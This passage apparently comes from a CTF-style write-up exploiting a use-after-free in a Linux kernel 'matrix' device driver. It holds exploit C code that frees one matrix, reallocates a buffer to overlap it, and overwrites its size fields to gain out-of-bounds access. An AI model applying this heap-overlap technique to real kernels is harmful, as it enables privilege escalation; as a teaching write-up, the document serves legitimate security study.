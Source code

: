 ```c
    
    logInfo("Link fd2 <-> fd3: done. But fd1 -> fd2 ?");
    close(fd2);
    logInfo("Closed fd2");

    struct matrix_info info3={
        .rows = sizeof(struct matrix),
        .cols = 1
    };
    
    if(set_info(fd3,&info3))
        errExit("set_info 3");
    logInfo("Allocate matrix3->data dup matrix2");
```

In the `matrix_open`, we know that the matrix is also allocated via `kzalloc` : 
```c
static int matrix_open(struct inode* inode, struct file* file)
{
  struct matrix* matrix = NULL;

  // alloc a new matrix
  file->private_data = kzalloc(sizeof(struct matrix), GFP_KERNEL);
  if (! file->private_data)
    return -ENOMEM;

  matrix = file->private_data;
```

So I will allocate 64 bytes (size of `struct matrix`) for  `matrix3->data` , `matrix3->data` will overlap with `matrix2`.

Also, creating and linking `matrix4` to `matrix3` to write data to `matrix3->data`.

```c
struct matrix_info info3={
        .rows = sizeof(struct matrix),
        .cols = 1
    };
    
    if(set_info(fd3,&info3))
        errExit("set_info 3");
    logInfo("Allocate matrix3->data dup matrix2");

    int fd4 = openDEV();
    if(do_link(fd3,fd4))
        errExit("do_link");
    logInfo("Link fd4 <-> fd3");

    uint32_t rowcol[2] = {0x100,0x100};
    writeMATRIX64(fd4,(uint64_t *)rowcol,0);
    logInfo("write 0x100 0x100 to old matrix2{rows,cols}");
```
I will set size of `matrix2` is `0x100` x `0x100`.
